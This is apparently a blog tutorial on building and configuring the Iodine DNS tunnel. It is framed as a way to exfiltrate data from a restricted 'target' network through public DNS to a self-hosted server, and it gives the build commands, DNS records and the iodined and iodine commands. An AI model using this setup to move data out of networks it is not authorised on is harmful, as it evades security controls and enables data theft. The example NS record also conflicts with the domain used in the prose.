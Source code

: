 ```yaml
---
title: "Configuring Iodine"
date: 2021-05-19T10:08:56-08:00
draft: false
tags: 
- oob
- dns
- exfiltration
---
```


# Setting up and Using Iodine

## Introduction
What is Iodine? Rather than defining it, let's start with an example. Let's say you have physical access to a box and you desperately need to exfiltrate some data. However, you quickly discover that you cannot connect outbound on any port except 53. Basic protocol checks prevent you from simply configuring an FTP server on port 53 of your cloud server. And to throw another wrench into the gears, it seems like they have locked you into a set of standard public DNS servers anyway. How will you get any data out through just DNS destined for Google or Cloudflare servers? This is where Iodine comes in. (Some have also noted Iodine's usefulness in getting free wifi on planes and in hotels but we are not doing this)

Iodine provides a DNS tunnel on which other protocols such as HTTP or FTP can piggy back, allowing us to upload files with just access to public DNS servers. For more information on how non-DNS data may be carried over DNS, see our previous {{<preview-link "https://svl.sh/oob-dns/" blog>}} on out-of-band DNS.

## What you need
- A domain. Grab one off Namecheap or Godaddy, to name a couple domain name registrars.
- A server to receive the DNS requests. A cloud server or virtual private server ("VPS") will be easiest, since it already has a public address and we won't need to port forward anything.
- A target. Probably one that has some painful networking restrictions.


## Step 1: Set up your server
First, create an Ubuntu server on your VPS provider of choice. On that server:
- Make sure you disable any conflicting DNS services on port 53. See other blogs on Linux sysadmin basics for more information on the command to use. Most likely, the following command will work:
```bash
systemctl stop systemd-resolved
```
You can also run `apt update` and `apt upgrade` as needed. This should not be an issue because you just made the VPS, and it should be a relatively new image. But it is good practice and may fix problems with outdated packages.

Let's compile and install the server binary (both the client and server binary are the same, just run with different arguments and flags).
First, clone the repository to your system.
```bash
git clone https://github.com/yarrick/iodine.git
```
Once the iodine repo is in your current directory, enter the directory with:
```bash
cd iodine
```
Ensure that you have the libz-dev installed. This library, used for data compression, is necessary for the compilation process (transporting data over DNS means that data compression is going to play a big role in maximizing throughput). Install the package using:
```bash
apt install libz-dev
```
Now we compile the app using:
```bash
make
```
And now install it (installing in general is moving files to the right locations for execution; here, we just move the compiled binary to a directory in the path). Use the command:
```bash
make install
```

##  Step 2: Configure your DNS entries
Next we need to ensure that DNS requests can reach our server. 
Our first entry will be to give our "DNS" server an FQDN. Go to your domain registrar's website and open the DNS settings for the domain you want to use.

We will start by adding an A record that will point to the IP of your hosted server. The entry should look something like the following, depending on your registrar's web site:
|Type |Host |Value | TTL |
|A Record | ns | IP Address | Auto |
An A record is one of the simplest types of records, and it determines what IP to direct traffic to when a certain hostname is requested. In this example, let's say you bought `testeroni.com`. The above record will direct any traffic destined for `ns.testeroni.com` to the IP address you specify. If you wanted another host on this domain, you can give it another name like `computer1` and it would be reachable on `computer1.testeroni.com`.

Now to get DNS traffic to our `ns.testeroni.com` host, we need to configure it to be the resolver for a subdomain we setup. For example, our subdomain can be called `s.testeroni.com`, any requests to resolve `[somehost].s.testeroni.com` will go to a specified name server. In this case, we will sit it to `ns.testeroni.com`.
|Type |Host |Value | TTL |
|NS Record | s | ns.potato.monster. | Auto |

Just as a recap, we have a subdomain called `s` of our domain `testeroni.com`. Any host information is specified before `s.testeroni.com`.

## Start up the server
```bash
iodined  -f -c -P [password] 192.168.77.1 s.testeroni.com
```
We will start with the `-f` option to start iodined in the foreground; this is going to help with troubleshooting. `-c` is used for compression, `-P` is to specify the password.
The IP address is the address you want for the *tunnel*. This should be a different subnet than your local network. You use these IPs to communicate between the two hosts through the tunnel. 

## Start the client program
```bash
iodine -f -P [password] s.testeroni.com
```
Here, we start the client program with a similar command, but note the lack of the d for daemon at the end. The client program will attempt to connect to the server using just DNS. Data will be encoded in the host section of the subdomain like so `[data].s.testeroni.com`.

## Test the connection
To test if the tunnel is configured properly, try using the following command from your client (and vice versa):
```bash
ping <tunnel-IP-of-server>
```
Any traffic that you need tunneled through DNS can simply be directed towards the server's tunnel IP. For specific application traffic to be forwarded, configure proxies (see http or SOCKS proxies) that will handle requests using the less restricted server side.

